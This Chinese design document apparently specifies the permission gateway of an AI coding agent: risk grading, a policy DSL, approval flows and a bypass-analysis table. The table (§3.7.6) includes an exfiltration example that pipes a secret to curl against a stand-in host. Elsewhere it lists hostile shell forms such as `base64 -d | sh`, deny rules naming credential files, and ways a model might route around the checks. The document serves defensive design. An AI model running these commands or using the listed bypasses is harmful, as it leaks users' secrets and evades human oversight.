| --- | --- | --- | --- | --- | --- | --- |
| B1 敏感路径硬编码在规则文件里 | 可被有权限者改写 | 5 | 7 | 8 | 5 | 62.0 |
| B2 配置化敏感集合 + 决策链首步短路（不可覆盖标记） | 可治理 + 不可放宽 | 9 | 7 | 8 | 8 | **81.5** |
| B3 B2 + 执行期双层复核（沙箱 based-on-fd 复检） | 防 TOCTOU | 9 | 6 | 7 | 8 | 78.0 |

**被放弃分支代价**：B1 与 D-PERM-10（技术强制）冲突——策略文件本身可被下级覆盖；B3 单独使用会引入沙箱实现的强耦合与跨平台复杂度。
**选定**：**B2 为实现主路径，B3 的「执行期复核」由卷 07 沙箱围栏承担**（本方案只要求沙箱提供 denied-read 语义并在执行前复核路径身份），避免重复实现。故 REQ-PERM-18 的「执行期复核」以沙箱契约形式验收，本模块负责决策期短路与身份化（canonical + inode 双键）。

### 3.7 选定方案详设

#### 3.7.1 决策链总体（单一入口）

`ActionGateway.assess(...)` 是内核唯一权限入口，固定九阶段：

| 序 | 阶段 | 产出 | 可被放宽 |
| --- | --- | --- | --- |
| 1 | 动作构造 | `ActionDescriptor`（改写后参数、工具、actor、会话、trace） | — |
| 2 | 归一化 | `NormalizedAction`（规范化路径集合、命令 AST、解析结论、外部目标、环境标签） | 否 |
| 3 | **敏感校验（SafetyGuard）** | `SafetyVerdict`（`PASS` / `DENY` / `ESCALATE_ASK`），`overridable=false` | **否（首步短路）** |
| 4 | 风险分级 | `RiskAssessment`（R0–R5 + 依据 + 是否含歧义标记） | 否 |
| 5 | 策略求值 | 命中规则列表 + 轨迹（五层，拒绝优先） | 按层级 |
| 6 | 记忆求值 | 授权记忆命中（六级范围，最具体优先） | 否（记忆本身受策略约束） |
| 7 | 聚合定论 | `PermissionDecision`（四值 + 原因 + 引用 + 可授予范围） | — |
| 8 | 审批编排（ASK 时） | `ApprovalOutcome`（批准 / 拒绝 / 终止 / 超时 / 不可用） | — |
| 9 | 记录与事件 | 决策记录（含轨迹）+ `permission.decision` 事件 | — |

#### 3.7.2 风险分级判定算法（参数级）

```
assessRisk(NormalizedAction a, RiskContext ctx) -> RiskAssessment:
  R = a.tool.riskFloor                    # 静态工具级下限（如 edit_file = R1）
  for sub in a.commandChain:              # 已解析的子命令序列（管道/&&/;）
      Rsub = baselineOf(sub.program)      # 前缀字典 + 模式集（配置化）
      Rsub = max(Rsub, scanArgsAndRedirections(sub))   # 参数模式 + 重定向目标
      if sub.writesOutsideWorkspace: Rsub = max(Rsub, R1)
      if sub.targetsSensitivePath: Rsub = max(Rsub, R4)
      R = max(R, Rsub)
  if a.parseOutcome == PARTIAL:  R = max(R, R2); ctx.markAmbiguous()
  if a.parseOutcome == UNPARSED: R = max(R, R4); ctx.markAmbiguous()
  if a.externalTargets notEmpty: R = max(R, R3)
  if ctx.assetClassifier marks as production: R = max(R, R4)
  if a.touchesSecretRef: R = R5
  return RiskAssessment(R, evidenceList, ctx.ambiguous)
```

**配置化要求**（禁止魔法值）：`baselineOf` 的前缀字典来自 `open-coding.permission.risk.command-baselines`（默认随发行版提供的 `command-baselines.yaml`，含 `git`→R2、`git push --force`→R4、`rm -rf`→R4、`curl`→R3、`cat`→R0…）；参数模式集来自 `risk.arg-patterns`；重定向与外部目标判定由 `PathNormalizer` + 企业资产库 SPI（`RiskAssessorSPI`）提供。

**基线合并与「只升不降」防护（防配置弱化判定）**：内置基线（随发行物编译/校验）与配置、企业字典按**同键取高**合并——配置只能提高某键的风险级或新增键，任何降低既有键风险级的尝试被拒绝并记 `permission.override.denied`；`command-baselines.yaml` / `arg-patterns.yaml` 的加载同样纳入 `policy.integrity-check-enabled` 的哈希校验（防本地篡改 yml 后把高危命令降为 R0）。

**解析歧义处置（硬约束）**：`PARTIAL` / `UNPARSED` 一律**取高**且**禁止规则沉淀**（不写入 `always` / pattern 记忆），只能 `ALLOW_ONCE` 或 `ASK`；升级链企业策略可将歧义动作直接置为 `DENY`（配置 `risk.ambiguous-action=deny|ask|ask-escalate`）。

**已知歧义源清单**（解析器必须显式标记，逐条有测试用例）：命令替换 `$(...)` 与反引号；heredoc；管道到解释器（`| sh`、`| bash`、`| python`）；`eval`；`bash -c` / `sh -c` 嵌套；`xargs`；环境变量展开与 `env VAR=... cmd`；`alias` 定义；通配符与花括号展开；`find -exec`；`sudo` 前缀；`base64 -d | sh`；`docker exec`；`npm exec` / `npx`；`python -c` / `node -e`；`chmod +x && ./file`；`;` / `&&` / `||` / 换行 多命令；输出重定向到可执行路径；Windows `cmd /c`；PowerShell `Invoke-Expression` 与 `-EncodedCommand`（后者需 base64 解码后再解析，解码失败即 UNPARSED）。

#### 3.7.3 路径模式匹配语义

- **规范化**（`PathNormalizer`，双向：策略侧与执行侧）：统一分隔符为 `/`；解析 `.` 与 `..`；解析符号链接（`toRealPath`，失败即拒绝）；Win32 折叠大小写并按 8.3 短名还原；Unicode NFC 归一；拒绝含 ADS（`file:stream`）与 `\\?\` 前缀的越权形式；超长路径（> 4096）直接拒绝。
- **匹配**：gitignore 风格 glob，`*` 不跨 `/`，`**` 跨任意层级，`?` 单字符；**禁止 `!` 否定模式**（安全策略只允许通过更精确的 allow 规则命中更高层，禁止在 deny 规则内部开例外，避免误读为放宽）。
- **身份化**：同时产出 `canonicalPath`（用于规则匹配与展示）与 `inodeKey`（`dev:ino` 或 Windows `volume:fileId`，用于执行期复核与硬链接识别）。
- **企业元数据保护**：`.git/hooks`、`.git/config`、策略文件、审计日志、插件签名密钥目录一律进入**保护元数据集合**（只能由 admin 层规则显式放行，默认 R4 且强 ASK）。

#### 3.7.4 规则模型与 DSL

```yaml
# 文件：<workspace>/.opencoding/policy.yaml   tier=workspace
tier: workspace
rules:
  # 允许本地测试与构建（带时段与到期约束）
  - id: ws-build-allow
    effect: allow
    priority: 40
    description: 允许在工作日窗口内执行测试与构建
    predicate:
      tool: [run_tests, run_build]
      risk: [R2]
      timeWindow: { days: [MON, TUE, WED, THU, FRI], from: "08:00", to: "22:00" }
    expiresAt: "2026-12-31T23:59:59+08:00"
    recordedBy: "user:zhangsan"
    justification: 本地迭代频繁 且 构建测试无外发副作用

  # 禁止读取凭证类文件（比 allow 更具体 且 拒绝优先）
  - id: ws-secret-deny
    effect: deny
    priority: 90
    predicate:
      tool: ["*"]
      pathGlob: ["**/.env", "**/.env.*", "**/id_rsa", "**/*.pem", "**/.aws/credentials"]
    recordedBy: "user:zhangsan"

  # 命令前缀允许（arity 归约后匹配）
  - id: ws-npm-test-allow
    effect: allow
    priority: 60
    predicate:
      tool: [run_command]
      commandPrefix: ["npm", "test"]
      commandRegex: "^[^|;&]*$"        # 禁止管道与串联 防止前缀绕过
    expiresAt: "2026-10-31T00:00:00+08:00"
    recordedBy: "user:zhangsan"
```

**规则字段**：`id` / `tier` / `effect`（`allow` / `deny` / `ask`）/ `priority`（带内小数：`1 + priority/1000`）/ `description` / `predicate` / `expiresAt` / `recordedBy` / `justification` / `locked` / `sourceDigest`。
**谓词字段**：`tool`（支持 `*` 与 `MCP:<server>:*` 命名空间通配）、`risk`（R0–R5 集合）、`pathGlob`、`commandPrefix`、`commandRegex`、`argPatterns`、`externalHostGlob`、`timeWindow`、`envTags`、`actorRoles`、`expressionRef`（`PolicyRuleSPI` 编程式规则的注册名）。
**表达式白名单函数**：`startsWith` / `endsWith` / `matches` / `memberOf` / `withinWorkspace` / `isProductionAsset` / `inTimeWindow`；禁止任意代码求值（无反射、无脚本引擎）。

#### 3.7.5 策略源优先级与聚合

- 层级（高 → 低）：**L5 ADMIN（组织/租户，可锁定）> L4 WORKSPACE（项目/工作区）> L3 USER > L2 SESSION > L1 DEFAULT（内置默认档）**。
- 带内排序：`tierRank * 1.0 + (1 + priority/1000)`，取最高分命中规则；同分以规则 `id` 字典序决胜并生成策略告警。
- **具体度次序键**（REQ-PERM-4「更具体者覆盖更宽泛者」的落地口径）：当带位与 `priority` 同分时，先按「谓词具体度」排序——命中 `pathGlob` / `commandPrefix` / `argPatterns` / `externalHostGlob` 等具体字段的规则优先于仅命中 `tool: "*"` 的规则；精确匹配优先于 `*` / `**` 通配。具体度仍相同才以 `id` 字典序决胜并生成策略告警；三个次序键（带位 → priority → 具体度）全部计入求值轨迹，保证「为什么是这条规则」可解释、可回放。
- 聚合规则：**拒绝优先**（任一层命中 `deny` 即 `DENY`，无论更高层是否 `allow`）→ 否则 `ask` → 否则命中 `allow` 层决定 `ALLOW`；`locked=true` 的 ADMIN 规则在求值前**预置**，下级规则无法覆盖（覆盖尝试即阻断并记事件）。
- 记忆（第 6 阶段）只对 **`ask`/无规则** 结果生效，且受「模式 + 策略 + 敏感集合」三重封顶：记忆不能把 `DENY` 变成 `ALLOW`，不能突破模式收窄，不能覆盖 SAFETY。

> **与 Phase A 的差异登记（I-PERM-2）**：卷 06 §4.2 给出「组织→租户→项目→工作区→会话→用户 由高到低」；本方案按施工指令归并为 admin > workspace > user > session > default。差异仅在「会话级 ALLOW vs 用户级 DENY」这一格：本方案判定为 **DENY**（会话级授权最易被提示注入诱导，故置于用户级之下）。已登记 `I-PERM-2` 并在 `IMPL-DECISIONS.md` 追加对卷 06 §4.2 的修订建议，Phase A 卷册不改动。

#### 3.7.6 绕过面分析与对策（安全要点）

| # | 绕过路径 | 具体手法 | 对策 |
| --- | --- | --- | --- |
| 1 | 路径别名 | 符号链接 / junction / 8.3 短名 / UNC / ADS 指向敏感文件，绕过 `pathGlob` | 决策期 `canonical + inode` 双键匹配；保护元数据集合按**首层组件名**额外判定（对齐 codex `protected_metadata_names` `[E1]`）；执行期由沙箱按 fd 复核 |
| 2 | 命令间接 | `cat secret \| curl -d @- http://x` 或 `python -c "open('.env')"` 读取敏感内容 | 命令 AST 内所有字符串参数的路径扫描 + 沙箱 `denied-read`（**denied-read 存在时禁止脱沙箱**，REQ-PERM-25）+ 出网 DLP 扫描 |
| 3 | 解析歧义 | 用编码/嵌套解释器让风险判定误判为 R0/R1 | 歧义即取高（PARTIAL ≥ R2、UNPARSED = R4）+ 禁规则沉淀 + 企业可置 DENY（§3.7.2） |
| 4 | 钩子改写 | 前置钩子把安全命令改写为危险命令，试图「先鉴权后改写」 | 管线铁律：改写**先于**鉴权；权限决策后仅允许观察类钩子（卷 05 §4.2① ②）；改写后**重跑 SafetyGuard 与风险分级** |
| 5 | 模式放宽 | 切到 `yolo` / `autonomous` 试图获得全权 | 六档模式只定义「起点」，策略与敏感集合只能收窄；`yolo` 默认禁用、企业强制禁用；模式不可覆盖 SAFETY |
| 6 | 旁路入口 | 插件后台任务 / MCP 直连 / 定时任务绕过网关 | 动作网关为内核唯一入口；插件与 MCP 走同一网关；审计扫描未登记副作用（REQ-PERM-23）+ 沙箱围栏兜底 |
| 7 | 审批通道伪造 | 伪造 IM 回调 / 重放应答报文获批 | 应答者身份强校验（绑定 actor + 通道签名）；审批应答幂等且**状态机终态不可再变**；审计记录应答者身份 |
| 8 | 策略篡改 | 直接改写本地策略文件或记忆文件 | 策略完整性哈希（REQ-PERM-17）+ admin 层签名校验 + 记忆写入必须经引擎（文件不可手写生效） |
| 9 | 授权记忆越界 | 用一次批准获得远超当次范围的权限 | 六级范围显式可选（危险操作不提供 `always`，REQ-PERM-28）；记忆命中仍受模式与敏感集合封顶 |
| 10 | 策略来源越级 | 插件 / 第三方策略源自报 `tier=admin`，或在锁定带写入放宽规则 | 层级由**宿主按来源与安装授权绑定**，不接受来源自报（组织签名 + admin 安装的企业插件方可获得 `admin` 带）；插件来源规则受放宽方向限制（`ALLOW→ASK→DENY` 单向），任何越级或放宽注入被拒并记 `permission.override.denied`（与卷 18 §4.4 权限策略族门面同源） |
| 11 | 审批预览与执行不一致 | 审批者看到 A（安全/无害），实际执行 B（被改写或替换的命令） | 预览与执行绑定同一 `action_digest`；执行前复核 digest 一致，不一致即拒绝执行 + `permission.approval.preview.mismatch` 安全事件（防「看 A 跑 B」） |
| 12 | 审批载荷外泄 / 渲染注入 | 审批通道成为敏感参数外泄面；预览文本被解释为富文本/脚本 | 审批请求只含摘要 + 引用（REQ-PERM-30）；预览按**纯文本**渲染并做控制字符清洗，禁止 markdown/HTML 解释（防渲染层注入与终端转义序列） |

#### 3.7.7 六档权限模式

| 模式 | 语义 | 默认决策映射 | 允许的收窄 | 企业约束 |
| --- | --- | --- | --- | --- |
| `readonly` | 仅只读工具 | R0 → ALLOW；其余 DENY | 可进一步限制读路径 | 允许 |
| `plan` | 分析与计划，禁止副作用 | R0 → ALLOW；R1+ → DENY；提交计划需批准 | 可限制可见工具组 | 允许 |
| `default` | 写与执行按风险 ASK | R0 → ALLOW；R1 → ALLOW（有 diff）；R2/R3 → ASK；R4 → 强 ASK；R5 → DENY | 任意收窄 | 允许 |
| `acceptEdits` | 自动接受文件编辑 | R1 → ALLOW（工作区内）；R2+ 同 `default` | 可限定目录模式 | 允许 |
| `autonomous` | 预授权边界内自动执行 | 边界内 → ALLOW；越界 → ASK / DENY | 边界只能由 admin/workspace 定义 | 必须显式开户 |
| `yolo` | 全部放行（仅沙箱内/一次性容器） | 除 SAFETY 与 R5 外 ALLOW | — | **默认禁用，企业强制禁用** |

模式切换生成 `permission.mode.changed`（含切换者、前后模式、当时会话）；审计记录「当时是什么模式」，模式变更不影响历史决策的可解释性。

#### 3.7.8 审批编排语义

| 语义 | 定义 |
| --- | --- |
| 请求结构 | `approvalId` / `sessionId` / `taskId` / 动作摘要 / 预览（diff / 命令全文 / 网络目标）/ 风险类与触发规则 / 可选授予范围 / 超时与超时动作 / 上下文链接 / 责任记录（谁请求、代表谁） |
| 批量授权传播 | 应答 `always`：先按显式范围写记忆，再对同会话 pending 请求**重算**；仅当该请求**全部资源**均落在放行范围时才一并放行（避免部分资源被顺带放行）`[E1]` |
| 级联拒绝 | 应答「拒绝并终止」：同会话 pending 全部置拒绝、工具调用中断、回合结束；「仅拒绝本次」则只终结本次并回喂结构化拒绝（模型可换路） |
| 幂等 | 同一 `approvalId` 的应答只生效一次；重复应答返回原结果；终态（granted / denied / expired / cancelled / unavailable）不可再迁移 |
| 超时 | 默认 300 秒；动作 `deny`（默认）或 `escalate`（企业）；超时生成 `permission.approval.expired` 并回喂 |
| 不可用 | 通道全断 / 应答者缺失 / 应答不合规 → `unavailable`，**调用方 fail-closed 视为拒绝** |
| 去重 | 同 actor 同动作同资源在去重窗口（默认 30 秒）内合并计数，仅一条展示 |

---

## 4. 总体架构图



---

## 5. 类图与 Java 21 签名



```java
/**
 * 动作描述（动作网关唯一输入）。
 * 由工具执行管线第 4 步用「钩子改写后的最终参数」构造；任何副作用发起方都必须构造本对象。
 *
 * @param actionId 动作唯一 ID（与工具调用 ID 关联，用于审计串联）
 * @param toolName 工具名（含来源前缀，如 MCP:server:tool）
 * @param kind 动作类别（读 / 写 / 执行 / 外发 / 元操作）
 * @param commandText 命令原文（非命令类工具为空），用于参数级风险判定
 * @param targets 目标资源集合（路径、端口、主机、会话对象）
 * @param actor 责任主体（用户 / Agent / 子 Agent / 外部调用方）
 * @param sessionId 会话 ID
 * @param traceId 链路 ID
 */
public record ActionDescriptor(String actionId,
                               String toolName,
                               ActionKind kind,
                               Optional<String> commandText,
                               List<ResourceTarget> targets,
                               ActorRef actor,
                               String sessionId,
                               String traceId) {
}
```

```java
/**
 * 动作网关：所有副作用必须经此决策（D-PERM-3）。
 * 九阶段顺序固定：动作构造 → 归一化 → 敏感校验 → 风险分级 → 策略求值 → 记忆求值 → 聚合 → 审批 → 记录。
 *
 * 层带归属（H-003）：本类属**内核层**（零 Spring）——不使用 `@Service`/`@Component` 等容器注解，
 * 由外壳装配计划显式构造并注入端口实现（`@Slf4j` 为 Lombok，仅引入 SLF4J 门面，不构成框架依赖）；
 * 需要容器装配的角色（策略存储、审批持久化）一律为平台域带的适配器。
 */
@Slf4j
public final class DefaultActionGateway implements ActionGateway {

    /**
     * 评估一个动作并返回四值决策。
     * 本方法**不抛业务异常**：业务失败一律以 `DENY` + 原因返回，由工具管线回喂模型；
     * 描述缺失必填字段属于契约违约，以 fail-closed 拒绝并记 ERROR 日志（不静默放行）。
     *
     * @param descriptor 动作描述（命令类动作必须携带 commandText，否则视为契约违约）
     * @param context 权限上下文（模式、角色、租户、时段、非交互标记）
     * @return 决策结果（含风险类、命中规则引用、求值轨迹与可授予范围）
     */
    @Override
    public PermissionDecision assess(ActionDescriptor descriptor, PermissionContext context) {
        log.info("权限决策开始，actionId={}, tool={}, sessionId={}", descriptor.actionId(),
                descriptor.toolName(), descriptor.sessionId());

        // 0. 契约自检：缺失必填字段按 fail-closed 拒绝，绝不当作可放行
        if (!descriptor.isComplete()) {
            log.error("权限决策输入契约违约，actionId={}, 缺失字段数={}", descriptor.actionId(),
                    descriptor.missingFieldCount());
            return PermissionDecision.failClosed(PermErrorCode.PERM_CONTRACT_VIOLATION, descriptor, context);
        }

        // 1~2. 归一化：路径解析为 canonical + inode 双键，命令解析为 AST（歧义即标记）
        NormalizedAction normalized = normalizer.normalize(descriptor);

        // 3. 敏感校验：首步短路，不可被模式、规则、钩子或审批放宽（REQ-PERM-18）
        SafetyVerdict safety = safetyGuard.inspect(normalized);
        if (safety.isDeny()) {
            return recorder.recordDeny(descriptor, context, safety);
        }

        // 3.1 无法判定的安全项（链接不可解析、元数据读取受限）按「强制询问」处理：
        // 置入上下文标记后，聚合阶段不得再产出 ALLOW——fail-closed 的连续语义（I-PERM-6）
        if (safety.isEscalateAsk()) {
            log.warn("敏感校验无法判定，已置强制询问，actionId={}, 依据={}", descriptor.actionId(),
                    safety.verdictCode());
            context = context.withForcedAsk(safety.verdictCode());
        }

        // 4~6. 风险分级 → 五层策略求值 → 授权记忆求值（记忆不能把 DENY 变为 ALLOW）
        RiskAssessment risk = riskAssessor.assess(normalized, context.riskContext());
        PolicyOutcome policy = policyEvaluator.evaluate(normalized, risk, context);
        PolicyOutcome finalOutcome = memoryResolver.apply(policy, normalized, context);

        // 7~9. 聚合定论 → 必要时进入审批编排 → 记录决策与事件
        PermissionDecision decision = decisionAggregator.aggregate(finalOutcome, risk, safety, context);
        if (decision.value() == DecisionValue.ASK) {
            decision = approvalOrchestrator.request(approvalAssembler.assemble(descriptor, decision, context));
        }
        recorder.record(descriptor, context, risk, finalOutcome, decision);

        log.info("权限决策结束，actionId={}, 结果={}, 风险级={}, 命中规则数={}", descriptor.actionId(),
                decision.value(), decision.riskClass(), decision.matchedRules().size());
        return decision;
    }
}
```

> 说明：本网关**不抛业务异常**；业务失败以 `DENY` + 原因返回并由管线回喂（对齐 `.qoder/rules/exception-handling-rules.md`）。契约违约（缺失必填字段）同样 fail-closed 拒绝并记 ERROR，不做静默放行。**异常命名分层（全套统一）**：本域属内核层，若确需上抛（契约违约、策略加载内部错误）统一抛 `HarnessException(ErrorCode, message)`（如 `INVALID_ARGUMENT` / `POLICY_LOCKED`）；外壳层（管理面 REST、审计导出、审批通道适配）对应位置抛 `BusinessException`，由外壳全局异常处理器按 `ErrorCode` 统一映射；两侧均**禁止**裸抛 `IllegalArgumentException` / `RuntimeException`。**契约缺口指针（X-82）**：异常类名与冻结卷册 `ErrorCode` 映射的登记缺口已列为修订建议 **X-82**（`impl/IMPL-DECISIONS.md` §4；本文件不改台账）。

---

## 6. 核心流程时序图

### 6.1 决策链全序（ALLOW / ASK / DENY 与求值轨迹）

**前置条件**：工具调用已通过参数校验，前置钩子已改写参数（改写结果即本流程输入）。
**主路径**：归一化 → 敏感短路（PASS）→ 风险分级 → 五层求值 → 记忆 → 聚合 → 记录。
**异常与补偿**：归一化失败（路径不可解析 / 命令暴走深度超限）→ 直接 DENY 并给出改写建议；策略库不可读 → fail-closed DENY + `permission.policy.unavailable`。
**幂等与并发点**：同一 `actionId` 重复评估返回同一 `decisionId` 记录（决策记录按键幂等）；策略缓存以版本号失效，跨租户不共享缓存。



### 6.2 审批编排：请求 / 超时 / 批量授权 / 级联拒绝

**前置条件**：决策为 `ASK` 且存在可用审批通道。
**主路径**：持久化请求（outbox）→ 多端呈现 → 应答 → 写记忆（按范围）→ 重算 pending → 放行或拒绝。
**异常与补偿**：超时 → 按策略 `deny` 或 `escalate`；通道全断 → `unavailable` → fail-closed；重复应答 → 幂等返回原结果。
**幂等与并发点**：`approvalId` 状态机终态不可再迁移；批量传播用「重算 + 全资源覆盖」条件（不接受部分覆盖）。



### 6.3 敏感路径强校验与不可 bypass 验证

**前置条件**：模型试图通过路径别名与命令间接读取凭证文件。
**主路径**：归一化暴露真实目标 → SafetyGuard 短路 DENY → 审计留痕 → 回喂改写建议。
**异常与补偿**：若归一化无法判定（无法解析的链接 / 权限不足）→ 按 `ESCALATE_ASK` 处理并升级至企业审批人，**绝不**默认放行。
**幂等与并发点**：安全判定无状态且幂等；同一路径重复尝试计数触发 `permission.abuse.suspected` 安全事件。



### 6.4 企业基线下发与锁定

**前置条件**：企业管理员在管理面发布新的策略基线版本。
**主路径**：签名 + 版本 + 锁定层级 → 客户端拉取 → 完整性校验 → 生效 → 审计。
**异常与补偿**：签名或哈希不匹配 → 拒绝应用该基线并阻断（保留上一版），生成 `permission.policy.integrity.violation`；下级覆盖尝试 → 阻断 + `permission.override.denied`。
**幂等与并发点**：`POST /api/v1/policies/apply` 使用 `Idempotency-Key`；策略版本单调递增，回滚通过发布新版本实现（不原地改历史）。



---

## 7. 状态机

### 7.1 审批生命周期



### 7.2 授权记忆生命周期



---

## 8. 数据模型

### 8.1 表（`oc_*`）

**类型约定（本节各表通用；逐列 DDL 以卷 19 的 Flyway 迁移脚本为准）**：内部主键 `id BIGINT`（Snowflake）或复合主键（如 `(tenant_id, …)`）；对外暴露的引用 ID 用不透明字符串 / `UUID`（防遍历）；时间列统一 `TIMESTAMPTZ`（UTC 存储、展示层本地化）；枚举列存 `VARCHAR(32)` 的 **code**（禁止存 desc）；结构化与可变结构用 `JSONB`；布尔列 `BOOLEAN NOT NULL DEFAULT false`；敏感字段（密钥 / Token）只存引用名 `*_ref`，明文永不入库；大对象（快照 / 录制 / 工件）外置并留指针；各表字段语义见「关键字段」列，索引与唯一约束见末列。

| 表 | 关键字段 | 索引 / 约束 | 保留 |
| --- | --- | --- | --- |
| `oc_policy` | `id`、`tenant_id`、`tier`、`version`、`rule_json`、`locked`、`priority`、`expires_at`、`recorded_by`、`signature`、`source_digest` | `(tenant_id, tier, id, version)` 唯一；`(tenant_id, tier, locked)` | 长期（版本只追加） |
| `oc_policy_version` | `tenant_id`、`version`、`digest_manifest`、`signature`、`published_by`、`published_at`、`change_ticket` | `(tenant_id, version)` 唯一 | 长期 |
| `oc_permission_decision` | `id`、`tenant_id`、`session_id`、`action_id`、`action_digest`、`risk_class`、`mode`、`decision`、`reason`、`rule_refs`、`trace_json`、`policy_versions`、`ambiguous`、`created_at` | `(tenant_id, session_id, created_at)`；`(tenant_id, risk_class, decision)` | 审计保留（≥ 1 年） |
| `oc_approval` | `id`、`session_id`、`decision_id`、`action_digest`、`state`、`risk_class`、`grantable_scopes`、`preview_ref`、`timeout_at`、`responded_by`、`responded_at`、`idempotency_key` | `(tenant_id, state, created_at)` 部分索引（仅 pending）；`(idempotency_key)` 唯一；执行前按 `action_digest` 复核「预览与执行一致」（§3.7.6-11） | 审计保留 |
| `oc_grant_memory` | `id`、`tenant_id`、`scope`、`tool_name`、`resource_pattern`、`mode`、`granted_by`、`source_approval_id`、`expires_at`、`revoked_at` | `(tenant_id, scope, tool_name, resource_pattern)` 唯一；`(expires_at)` 扫描 | 长期 |
| `oc_audit_event` | `id`、`tenant_id`、`category`、`actor`、`action`、`subject`、`result`、`payload_digest`、`prev_hash`、`entry_hash`、`occurred_at` | `(tenant_id, category, occurred_at)`；哈希链顺序扫描 | 安全 ≥ 3 年 |
| `oc_decision_replay` | `decision_id`、`replayed_at`、`replayed_by`、`result_match`、`diff_json` | `(decision_id, replayed_at)` | 1 年 |

### 8.2 Redis Key（统一 `RedisKeys` 工厂）

| 用途 | 生成方法 | TTL |
| --- | --- | --- |
| 会话级授权记忆 | `RedisKeys.permGrant(sessionId, toolName, resourceDigest)` | 会话生命周期 |
| 记忆撤销广播（避免多实例缓存不一致） | `RedisKeys.permGrantRevokeChannel(tenantId)`（Pub/Sub） | 无 |
| 审批去重窗口 | `RedisKeys.permApprovalDedup(sessionId, actionDigest)` | 30s（配置化） |
| 策略版本缓存 | `RedisKeys.permPolicyVersion(tenantId)` | 随版本递增失效 |
| 重复尝试计数（滥用检测） | `RedisKeys.permAbuseCounter(actor, resourceDigest)` | 5 分钟滑窗 |

### 8.3 事件类型

`permission.decision` / `permission.approval.requested` / `.granted` / `.denied` / `.expired` / `.escalated` / `.unavailable` / `.halted` / `permission.approval.preview.mismatch` / `permission.memory.written` / `.revoked` / `.superseded` / `permission.policy.changed` / `permission.policy.integrity.violation` / `permission.override.denied` / `permission.bypass.detected` / `permission.mode.changed` / `permission.abuse.suspected` / `sandbox.denied`（卷 07 产生，本模块消费）。

### 8.4 指标

`oc_permission_decision_latency_ms`、`oc_permission_ask_ratio`、`oc_permission_denied_total`、`oc_permission_safety_denied_total`、`oc_approval_latency_ms{dimension=human|auto}`、`oc_approval_timeout_total`、`oc_permission_memory_size`、`oc_permission_ambiguous_total`、`oc_permission_bypass_detected_total`。

---

## 9. 接口与扩展点

### 9.1 协议面

| 面 | 方法 / 路径 | 入参 | 出参 | 错误码 |
| --- | --- | --- | --- | --- |
| 会话协议 | `approval.list` | `sessionId`、`state` | 待审批列表（摘要 + 倒计时 + 可授予范围） | — |
| 会话协议 | `approval.respond` | `approvalId`、`reply`（`once`/`always`/`reject`/`reject-and-halt`）、`scope`、`reason` | 处理结果（幂等） | `APPROVAL_STATE_INVALID`、`APPROVAL_FORBIDDEN_SCOPE` |
| 会话协议 | `permission.explain` | `decisionId` 或 `actionId` | 风险分级依据、命中规则、求值轨迹、策略版本 | `DECISION_NOT_FOUND` |
| 会话协议 | `permission.memory.revoke` | `memoryId` 或 `scope` 过滤 | 撤销结果（立即生效） | `MEMORY_NOT_FOUND` |
| 管理面 REST | `GET /api/v1/policies` | `tier`、`tenantId`、`version` | 策略列表与锁定标记 | — |
| 管理面 REST | `POST /api/v1/policies` | 规则体 + `change-ticket` | 新版本号 | `POLICY_LOCKED`、`POLICY_INVALID` |
| 管理面 REST | `POST /api/v1/policies/apply` | 基线包 + 签名 + `Idempotency-Key` | 应用结果 | `POLICY_INTEGRITY_VIOLATION` |
| 管理面 REST | `GET /api/v1/audit/events` | `category`、`from`、`to`、cursor | 审计事件（哈希链可校验） | — |
| 管理面 REST | `POST /api/v1/permissions/replay` | `decisionId`、`policyVersion` | 重放结果与差异 | `DECISION_NOT_FOUND` |

### 9.2 SPI 扩展点

| SPI | 职责 | 约束 |
| --- | --- | --- |
| `PolicyProviderSPI` | 策略来源（配置 / 数据库 / 企业策略服务） | 必须返回 `tier` 与版本，支持失效通知；**层级由宿主按来源与安装授权绑定，禁止自报越级（§3.7.6-10）** |
| `PolicyRuleSPI` | 编程式复杂规则（如「工作日外禁止部署」） | 纯函数、可测试、不得访问网络；**只能收窄（`ALLOW→ASK→DENY` 单向），不得自行进入锁定带** |
| `RiskAssessorSPI` | 自定义风险评估（企业资产库判定生产资源） | **只能提高**风险类，不得降低 |
| `ApprovalChannelSPI` | 审批呈现与回收（IM / 工单 / 邮件） | 必须回传应答者身份与通道签名 |
| `ApprovalPolicySPI` | 审批路由与超时策略（含升级链） | 超时动作只能是 `deny` / `escalate` |
| `AuditSinkSPI` | 审计出海（SIEM / 数据湖） | 只追加；失败不影响主链路但需告警 |
| `CapabilityTokenSPI` | 能力令牌发放与校验（高风险资源） | 令牌绑定资源模式与有效期 |

### 9.3 配置项（`open-coding.permission.*`）

| 配置 | 类型 | 默认 | 必填 | 说明 |
| --- | --- | --- | --- | --- |
| `approval.default-timeout-seconds` | int | 300 | 否 | 审批默认超时（卷 06 §10） |
| `approval.timeout-action` | enum | `deny` | 否 | `deny` / `escalate` |
| `approval.dedup-window-seconds` | int | 30 | 否 | 同动作通知合并窗口 |
| `approval.max-grant-scope` | enum | `workspace` | 否 | 单次可授予的最大范围（企业可收紧） |
| `risk.command-baselines` | string | `classpath:permission/command-baselines.yaml` | 否 | 命令前缀基线字典 |
| `risk.arg-patterns` | string | `classpath:permission/arg-patterns.yaml` | 否 | 参数级风险模式集 |
| `risk.ambiguous-action` | enum | `ask` | 否 | 解析歧义处置：`ask` / `ask-escalate` / `deny` |
| `risk.ast-coverage-floor` | double | 0.7 | 否 | 平台回退触发阈值 |
| `sensitive.paths` | list | 见 §3.7.6 基线 | 否 | **只可追加**，不可移除编译期基线 |
| `sensitive.command-wrappers` | list | `sh,bash,zsh,cmd,powershell,python,node,docker,xargs,eval` | 否 | 递归解析包装器白名单 |
| `sensitive.recursion-depth-limit` | int | 3 | 否 | 包装器递归解析上限，超限即 UNPARSED |
| `policy.integrity-check-enabled` | boolean | true | 否 | 策略签名与哈希校验 |
| `memory.session-store` | enum | `redis` | 否 | `redis` / `memory`（降级模式） |
| `non-interactive.ask-action` | enum | `deny` | 否 | 无头形态 ASK 降级目标 |
| `bypass.scan-interval-seconds` | int | 300 | 否 | 旁路扫描周期（非 JVM 插件降级为 30） |

敏感项（如企业策略服务凭证）一律环境变量注入 + 启动 Fail-Fast，yml 默认留空（`.env.example` 同步变量清单）。

---

## 10. 非功能与工程细节

- **性能**：决策 P95 ≤ 10ms（卷 06 §7）；策略预编译为判定式（谓词编译为 `Predicate<NormalizedAction>` 数组，避免重复正则编译）；记忆查找以 `(工具, 资源模式)` 索引化；跨租户**绝不**共享策略缓存（缓存键含 `tenantId` 与策略版本）。
